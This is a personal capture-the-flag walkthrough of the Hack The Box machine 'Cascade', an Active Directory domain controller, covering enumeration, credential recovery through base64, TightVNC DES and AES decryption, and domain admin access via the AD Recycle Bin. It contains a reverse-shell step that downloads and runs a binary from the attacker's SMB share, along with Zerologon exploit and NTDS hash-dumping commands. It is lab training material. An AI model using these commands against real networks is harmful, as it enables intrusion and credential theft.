

# 10.10.10.182 (cascade)

Tags: #active-directory #windows #ldap #exposed-credentials #sensitive-files #tightvnc #reverse-engineering #static-password #decryption #winrm #ad-permissions #ad-recycle-bin

## scan

### nmap

```sh
sudo rustscan -a cascade -- -T4 -sV -sC -oA tcp-all
```

```
Nmap scan report for cascade (10.10.10.182)
Host is up, received echo-reply ttl 127 (0.063s latency).
Scanned at 2023-07-09 18:06:58 EDT for 97s

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-07-09 22:07:04Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 51409/tcp): CLEAN (Timeout)
|   Check 2 (port 30512/tcp): CLEAN (Timeout)
|   Check 3 (port 10882/udp): CLEAN (Timeout)
|   Check 4 (port 18318/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time:
|   date: 2023-07-09T22:07:54
|_  start_date: 2023-07-09T22:02:07
```

### smb

```sh
# get OS, hostname, and domain info, as well as signing (for relay attacks)
# also check null session
crackmapexec smb cascade -u '' -p ''
SMB         cascade         445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         cascade         445    CASC-DC1         [+] cascade.local\:


# check guest account
crackmapexec smb cascade -u 'guest' -p ''
# logon failure

# list shares
smbmap -H 10.10.10.182 -u '' -p ''
# none

# deeper scan
enum4linux -aMld cascade | tee enum4linux.txt
Domain Name: CASCADE
Domain Sid: S-1-5-21-3332504370-1206983947-1165150453
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
[+] Password Info for Domain: CASCADE
	[+] Minimum password length: 5
	[+] Password history length: None
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000
		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0
	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes
	[+] Locked Account Duration: 30 minutes
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set
Password Complexity: Disabled
Minimum Password Length: 5
group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44e]
group:[IT] rid:[0x459]
group:[Production] rid:[0x45a]
group:[HR] rid:[0x45b]
group:[AD Recycle Bin] rid:[0x45f]
group:[Backup] rid:[0x460]
group:[Temps] rid:[0x463]
group:[WinRMRemoteWMIUsers__] rid:[0x465]
group:[Remote Management Users] rid:[0x466]
group:[Factory] rid:[0x46c]
group:[Finance] rid:[0x46d]
group:[Audit Share] rid:[0x471]
group:[Data Share] rid:[0x472]
Group: HR (RID: 1115) has member: CASCADE\s.hickson
Group: Audit Share (RID: 1137) has member: CASCADE\s.smith
Group: Data Share (RID: 1138) has member: CASCADE\Domain Users
Group: IT (RID: 1113) has member: CASCADE\arksvc
Group: IT (RID: 1113) has member: CASCADE\s.smith
Group: IT (RID: 1113) has member: CASCADE\r.thompson
Group: Remote Management Users (RID: 1126) has member: CASCADE\arksvc
Group: Remote Management Users (RID: 1126) has member: CASCADE\s.smith
Group: AD Recycle Bin (RID: 1119) has member: CASCADE\arksvc


# check for zerologon vuln b/c the server is old (2008)
crackmapexec smb cascade -u '' -p '' -M zerologon
ZEROLOGO... cascade         445    CASC-DC1         VULNERABLE
ZEROLOGO... cascade         445    CASC-DC1         Next step: https://github.com/dirkjanm/CVE-2020-1472
```

### ldap

```sh
# check AS-REP roastable users
❯ impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip cascade 'cascade.local/:'
No entries found!

# check Kerberoastable users
❯ impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip cascade 'cascade.local/:'
No entries found!

# list users with admin rights
crackmapexec ldap cascade -u '' -p '' --admin-count
# error (maybe no null session allowed?)

# look for user passwords within descriptions
crackmapexec ldap cascade -u '' -p '' -M get-desc-users
# error (maybe no null session allowed?)
```


## access

Based on my scans, it looks like the server is vulnerable to Zerologon. I'm guessing that wasn't the intended path, so I'll try to find another way first.

Since there's no lockout policy for password spraying, I'll try an aggressive scan for passwords.

```sh
❯ cme smb cascade -u users.txt -p /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt
# no results
```

Bummer. Not sure where to go from here. Looked at Walkthrough, and it said I should have found Ryan Thompson's password during LDAP enumeration. They used a tool called `windapsearch` to find the info, which I've never heard of. I pulled down the golang version of it from the it's repo and tested it out. It works great.

```sh
# download
wget https://github.com/ropnop/go-windapsearch/releases/latest/download/windapsearch-linux-amd64 -O windapsearch

# make executable
chmod +x windapsearch

# look for passwords. Must use '--full' to view all attributes from LDAP
./windapsearch --dc casc-dc1.cascade.local -m users --full | grep -i pwd
# ---- snip ----
cascadeLegacyPwd: clk0bjVldmE=
# ---- snip ----

# see what user the password belongs to
./windapsearch --dc casc-dc1.cascade.local -m users --full | awk -vRS= -vORS='\n\n' '/cascadeLegacyPwd/'
# ---- snip ----
sAMAccountName: r.thompson
# ---- snip ----

# base64 decode the password
❯ echo clk0bjVldmE= | base64 -d
rY4n5eva
```

So that's how I *should* have found the #credentials.
- `r.thompson:rY4n5eva`

Now let's see what we can do with these credentials:

```sh
# SMB?
❯ cme smb cascade -u r.thompson -p rY4n5eva
# works

# WinRM?
❯ cme winrm cascade -u r.thompson -p rY4n5eva
# nope

# LDAP?
❯ cme ldap cascade -u r.thompson -p rY4n5eva
# works

# enumerate admin accounts
❯ cme ldap cascade -u r.thompson -p rY4n5eva --admin-count
# standard

# check users with password not required
❯ cme ldap cascade -u r.thompson -p rY4n5eva --password-not-required
LDAP        cascade         389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        cascade         389    CASC-DC1         User: CascGuest Status: disabled

# try logging into a.turnbull without password
❯ cme smb cascade -u a.turnbull -p ''
# logon failure... must have password set

# check kerberoast
❯ cme ldap cascade -u r.thompson -p rY4n5eva --kerberoasting kerberoast.hash
# no records found

# check asreproast
❯ cme ldap cascade -u r.thompson -p rY4n5eva --asreproast asreproast.hash
# no records found

# shares
❯ smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
[+] IP: 10.10.10.182:445	Name: cascade
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share

# look for GPP passwords
❯ impacket-Get-GPPPassword 'cascade.local/r.thompson:rY4n5eva@cascade'
# none found

# explore Data share
❯ smbclient //cascade/data -U 'cascade.local/r.thompson%rY4n5eva'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

That's a lot of folders to dig through. I'm going to mount the drive so I can navigate and search easier.

```sh
cd /tmp
mkdir smb
sudo mount -t cifs -o username='r.thompson',password='rY4n5eva' //cascade/data /tmp/smb

tree smb
smb
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps
```

What does the Meeting Minutes file say?

```sh
❯ firefox "smb/IT/Email Archives/Meeting_Notes_June_2018.html"
```

Displays this message:


So I guess there is (possibly) a TempAdmin user that is using the same password as the normal admin user? Not helpful at the moment, but maybe useful later.

Looking at other files:

```sh
❯ cat "IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log"
# ---- snip ----
8/12/2018 12:22	[MAIN_THREAD]	** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22	[MAIN_THREAD]	Validating settings...
8/12/2018 12:22	[MAIN_THREAD]	Running as user CASCADE\ArkSvc
8/12/2018 12:22	[MAIN_THREAD]	Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```

Googling the "ARK AD RECYCLE BIN MANAGER v1.2.2" I see a bunch of write-ups for this box, but doesn't look like public software. However, it appears to have moved the TempAdmin user to some sort of recycle bin, so if I can find where that is, I may be able to extract the Administrator password.

Continuing with other files:

```sh
❯ cat IT/Logs/DCs/dcdiag.log
# ---- snip ----
     Starting test: SystemLog
         A warning event occurred.  EventID: 0x8000001D
            Time Generated: 01/10/2020   15:48:14
            Event String:
            The Key Distribution Center (KDC) cannot find a suitable certificate to use for smart card logons, or the KDC certificate could not be verified. Smart card logon may not function correctly if this problem is not resolved. To correct this problem, either verify the existing KDC certificate using certutil.exe or enroll for a new KDC certificate.
         An error event occurred.  EventID: 0xC00038D6
            Time Generated: 01/10/2020   15:48:43
            Event String:
            The DFS Namespace service could not initialize cross forest trust information on this domain controller, but it will periodically retry the operation. The return code is in the record data.
         A warning event occurred.  EventID: 0x000003F6
            Time Generated: 01/10/2020   15:48:43
            Event String:
            Name resolution for the name _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.cascade.local timed out after none of the configured DNS servers responded.
         A warning event occurred.  EventID: 0x0000000C
            Time Generated: 01/10/2020   15:48:43
            Event String:
            Time Provider NtpClient: This machine is configured to use the domain hierarchy to determine its time source, but it is the AD PDC emulator for the domain at the root of the forest, so there is no machine above it in the domain hierarchy to use as a time source. It is recommended that you either configure a reliable time service in the root domain, or manually configure the AD PDC to synchronize with an external time source. Otherwise, this machine will function as the authoritative time source in the domain hierarchy. If an external time source is not configured or used for this computer, you may choose to disable the NtpClient.
         A warning event occurred.  EventID: 0x000727AA
            Time Generated: 01/10/2020   15:50:52
            Event String:
            The WinRM service failed to create the following SPNs: WSMAN/CASC-DC1.cascade.local; WSMAN/CASC-DC1.
# ---- snip ----
```

No idea if those error messages will be useful later or not.

Continuing with the last file:

```sh
❯ cat "IT/Temp/s.smith/VNC Install.reg"
# ---- snip ----
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
# ---- snip ----
```

Googling how to decode/decrypt the password, I came across this:
- https://github.com/frizb/PasswordDecrypts

It says the password is encrypted with a fixed DES key, and offers a way to decrypt using the linux command line:

```sh
❯ echo 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

Nice! It looks like we have another user's #credentials:
- `s.smith:sT333ve2`

Let's see what we can do with this user:

```sh
# check share accesses
❯ smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2'
[+] IP: 10.10.10.182:445	Name: cascade
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share
```

It appears we added new access to the `Audit$` share. Let's explore that:

```sh
❯ smbclient '//cascade/Audit$' -U 'cascade.local/s.smith%sT333ve2'
Try "help" to get a list of possible commands.
smb: \> ls
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020
smb: \> cd x64
smb: \x64\> ls
  SQLite.Interop.dll                  A  1639936  Sun Oct 27 02:39:20 2019
smb: \x64\> cd ../x86
smb: \x86\> ls
  SQLite.Interop.dll                  A  1246720  Sun Oct 27 02:34:20 2019
smb: \> cd ../DB
smb: \DB\> ls
  Audit.db                           An    24576  Tue Jan 28 16:39:24 2020
smb: \> get CascAudit.exe
smb: \> get CascCrypto.dll
smb: \> get RunAudit.bat
smb: \DB\> get Audit.db
```

There are some binary files in there. Maybe we can poke around and see what they do with a little reversing?

Exploring the files we grabbed:

```sh
❯ cat RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"


❯ file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

❯ strings Audit.db
# ---- snip ----
CREATE TABLE "Ldap" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"uname"	TEXT,
	"pwd"	TEXT,
	"domain"	TEXT
# ---- snip ----
```

If we can read the database, we might be able to see passwords in the `Ldap` table. The strings of the `Audit.db` file also contains a username I haven't seen yet: `cascadmin`.

Opening the sqlite database in `dbeaver`.  (NOTE: can also use `sqlitebrowser`) First, create a new database connection:


Search for the "sqlite" driver, select it, and click "Next".


Open the `Audit.db` file:


Double-click on the Ldap table, switch to the Data tab and view the entry:


This is actually text I saw in the `strings` output, but I didn't know what to make of it.

```sh
❯ echo BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d | xxd
00000000: 0503 b997 92a3 f4c7 44ad 7c7a 43a0 063b  ........D.|zC..;
```

It's probably some encrypted text. I'm guessing the binary knows how to decrypt it. Maybe it uses a static key?

```sh
❯ file CascAudit.exe
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections

# look for UTF-16LE (Windows-style) strings
❯ strings -e l CascCrypto.dll
1tdyjCbY1Ix49842
1tdyjCbY1Ix49842
AesCrypto
# ---- snip ----

❯ strings -e l CascAudit.exe
SELECT * FROM LDAP
c4scadek3y654321
Error decrypting password:
Error getting LDAP connection data From database:
# ---- snip ----
```

The file is a .NET executable. I could probably reverse it with something like DNSpy, but I'd rather avoid it if I can easily figure out what's going on with strings alone.

Looking at the strings from the crypto DLL, I see an interesting 16-byte string repeated twice and the string "`AesCrypto`". AES uses a 16-byte IVs and keys, so this might be the IV or key in plain text.

Looking at the strings from the EXE file, I see strings that indicate it's doing a lookup of the LDAP table, followed by something that looks oddly like a crypto key (`c4scadek3y654321`). Since I think that's the key, the other one's probably the IV. We can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'UTF8','string':'c4scadek3y654321'%7D,%7B'option':'UTF8','string':'1tdyjCbY1Ix49842'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=MDUwMyBiOTk3IDkyYTMgZjRjNyA0NGFkIDdjN2EgNDNhMCAwNjNi) to AES-decrypt the data. I copied over the hex from the `xxd` output as the input, used `c4scadek3y654321` as the key (UTF8), and `1tdyjCbY1Ix49842` as the IV (also UTF8). And lo and behold, out popped a plaintext password!


More #credentials:
- `ArkSvc:w3lc0meFr31nd`

NOTE: the writeup provides a python script to decrypt the AES string:

```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv = iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

I never checked if `s.smith` had WinRM access, so checking now:

```sh
❯ cme winrm cascade -u s.smith -p sT333ve2
WINRM       cascade         5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

# what about ArkSvc?
❯ cme winrm cascade -u 'ArkSvc' -p 'w3lc0meFr31nd'
WINRM       cascade         5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)
```

Nice, so we can use either of those to get a shell.

```sh
❯ evil-winrm -i cascade -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

And we're in!


## privesc

First, upgrade the shell to a reverse shell:

```powershell
# on kali, host reverse shell over SMB
impacket-smbserver -smb2support -user derp -password herpderp share .

# start listener
rlwrap nc -lvnp 443

# on victim, download and execute
net use \\10.10.14.8 /user:x\derp herpderp
copy \\10.10.14.8\share\rsh.exe
.\rsh.exe
```

Now for basic enumeration:

```powershell
whoami /all
User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106
Group Name
===========================================
Everyone
BUILTIN\Users
BUILTIN\Pre-Windows 2000 Compatible Access
NT AUTHORITY\NETWORK
NT AUTHORITY\Authenticated Users
NT AUTHORITY\This Organization
CASCADE\Data Share
CASCADE\IT
CASCADE\AD Recycle Bin
CASCADE\Remote Management Users
NT AUTHORITY\NTLM Authentication
Mandatory Label\Medium Plus Mandatory Level

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


```

Let's look at Bloodhound to see what we can do with the AD situation.

```powershell
copy \\10.10.14.8\share\SharpHound.ps1
. .\sharphound.ps1
Invoke-Bloodhound -CollectionMethods All -CollectAllProperties
# errors?
```

Not sure what's going on. Getting errors trying to run SharpHound, no matter whether I use the EXE or PS1 versions. Going to try `bloodhound-python`

```sh
# install bloodhound-python in virtual environment
❯ python3 -m venv venv
❯ source venv/bin/activate
❯ pip install bloodhound

# run it
❯ bloodhound-python -c All -d 'cascade.local' -u 'ArkSvc' -p 'w3lc0meFr31nd' -ns 10.10.10.182
```

Finally that worked.

Looking at the results, I notice that `arksvc` is a member of AD Recycle Bin, which should have the TempAdmin user in a recycle bin somewhere. If I can figure out how to recover that user's info, I should be able to use his password to log in as domain admin. (I should have realized this earlier... it was in the `whoami` output)



I started googling Active Directory Recycle Bin, and apparently that's a [real thing](https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/). I found a [StackOverflow](https://serverfault.com/questions/901378/access-ad-recycle-bin-through-ldap) article that showed how to search for Deleted Objects using LDAP, and I combined that with [HackTricks' `ldapsearch` usage](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch) to make a query that shows deleted objects:

```sh
# ldapsearch for Deleted Objects in AD Recycle Bin
# '-x' : use simple authentication
# '-H URI' : LDAP Host URI
# '-D DISTINGUISHED_NAME' : the user's DN to bind to (format: DOMAIN\USERNAME)
# '-w PASSWORD' : password for user
# '-b BASE_DN' : base distinguished name to use for search results
# '-E EXTENSION' : LDAP search extensions
❯ ldapsearch -x -H ldap://cascade -D 'CASCADE\ArkSvc' -w 'w3lc0meFr31nd' -b "CN=Deleted Objects,DC=cascade,DC=local" -E showDeleted
# ---- snip ----
msDS-LastKnownRDN: TempAdmin
cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz
# ---- snip ----
```

The `-E showDeleted` flag is the key to seeing the deleted objects. You have to turn on that extension for it to actually display them.

NOTE: the writeup provides a powershell one-liner to get the same data:

```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

Now to decrypt the TempAdmin password:

```sh
❯ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Because they said they reused the password, the administrator #credentials should be:
- `Administrator:baCT3r1aN00dles`

```sh
❯ impacket-psexec 'Administrator:baCT3r1aN00dles@cascade'
```

And we get a SYSTEM shell!


### Zerologon

I skipped over the Zerologon exploit, but here it is just for completeness:

```sh
# grab the exploit code (also need latest impacket installed)
❯ git clone https://github.com/dirkjanm/CVE-2020-1472
❯ cd CVE-2020-1472

# set DC machine account password to empty:
# args: NETBIOS_DC_NAME DC_ADDR
❯ python3 cve-2020-1472-exploit.py casc-dc1 cascade

# dump desired hashes from NTDS.dit with secretsdump
# must use DC$ machine account
❯ impacket-secretsdump 'cascade.local/casc-dc1$@cascade' -no-pass -just-dc -just-dc-user Administrator

# alternatively, dump with crackmapexec
❯ cme smb cascade -u 'casc-dc1$' -p '' --ntds
```


## proof

### user.txt

```powershell
ipconfig
type C:\Users\USERNAME\Desktop\user.txt
```

Screenshot of `user.txt`


### root.txt

```powershell
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

Screenshot of `root.txt`:


